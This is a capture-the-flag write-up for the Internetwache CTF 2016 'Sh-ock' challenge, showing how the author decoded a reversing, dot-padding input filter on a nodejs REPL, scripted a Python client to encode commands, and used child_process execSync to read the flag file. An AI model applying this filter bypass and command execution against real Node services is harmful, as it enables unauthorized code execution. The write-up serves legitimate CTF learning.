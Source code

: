 +++
authors = "arturo182"
categories = [ "writeups" ]
date = "2016-02-21T14:40:00+01:00"
title = "Internetwache CTF 2016 Sh-ock (Exp 90) Writeup"
+++

# Problem

>  This is some kind of weird thing. I am sh-ocked.

Service: 188.166.133.53:12589

Solved by 105 teams

# Solution

We nc to the service and are presented with a prompt:

~~~none
Welcome and have fun!
$
~~~

Let's try something basic:

~~~none
Welcome and have fun!
$help
[ReferenceError: lh is not defined]
$
~~~

Right off the bat, that tells us a few things, the `ReferenceError` tells us that this is JavaScript (nodejs). The `lh` part is a little more confusing, let's try something else:

~~~none
$this
[ReferenceError: it is not defined]
$
~~~

Ok, so for help we got lh and for this we got it, seems like 3rd and 1st character, should we pad our commands?

~~~none
$t.h.i.s.
[ReferenceError: siht is not defined]
$
~~~

Yes, that seems to almost work, however it seems that the command is not only padded, but also reversed, how about:

~~~none
$s.i.h.t.
Interface {
  _sawReturn: false,
  domain: null,
...snip...
  _decoder: 
   { encoding: 'utf8',
     surrogateSize: 3,
     charBuffer: <Buffer 65 6e 74 73 20 3d>,
     charReceived: 0,
     charLength: 0 },
  _line_buffer: '' }
$
~~~

There we go! So now we know what to do (or so we think), let's get this party started.

~~~none
$e.r.i.u.q.e.r.
[SyntaxError: Unexpected token .]
$
~~~

But... but... we were so sure that we figured it out! Needs more testing I guess.

~~~none
$1.2.3.4.5.
54321
$1.2.3.4.5.6.
[SyntaxError: Unexpected number]
$1..2..3..4..5..6..
654321
$1...2...3...4...5...6...7...
7654321
$
~~~

So, 1 dot padding for strings shorter than 6 and 2 dots for 7 and so on... To the [python-cave](https://www.youtube.com/watch?v=Yic7IRO9d6I)!

After some trial and error, this is what we end up with:
~~~python
import socket
from sys import stdin, stdout

# source: https://gist.github.com/leonjza/f35a7252babdf77c8421
class Netcat:
    def __init__(self, ip, port):
        self.buff = ""
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((ip, port))

    def read(self, length = 1024):
        return self.socket.recv(length)

    def read_until(self, data):
        while not data in self.buff:
            self.buff += self.socket.recv(1024)

		pos = self.buff.find(data)
        rval = self.buff[:pos + len(data)]
        self.buff = self.buff[pos + len(data):]
        return rval

    def write(self, data):
        self.socket.send(data)

    def close(self):
        self.socket.close()

nc = Netcat('188.166.133.53', 12589)
while 1:
    print nc.read_until('$'),

    inp = stdin.readline().replace('\n', '')
    dots = min(max(1, len(inp)-4), 5) * '.'
    nc.write(dots.join(i for i in inp)[::-1] + dots + '\n')

s.close()
~~~

With that script, we have automatic padding and reversing, so we can execute commands easily:
~~~none
Welcome and have fun!
$require('child_process').execSync('cat flag.txt').toString('ascii')
 IW{Shocked-for-nothing!}
$
~~~

Flag: IW{Shocked-for-nothing!}

Sidenote: On our way out we also managed to snatch the source of the server task and I think it's interesting to see the exact impementation of the padding, to confirm that our python code was valid:

~~~javascript
    if(line.length <= 10) {
        line = line.replace(/.(.)?/g, '$1');
    } else if(line.length <= 20) {
        line = line.replace(/..(.)?/g, '$1');
    } else if(line.length <= 30) {
        line = line.replace(/...(.)?/g, '$1');
    } else if(line.length <= 40) {
        line = line.replace(/....(.)?/g, '$1');
    } else {
        line = line.replace(/.....(.)?/g, '$1');
    }
~~~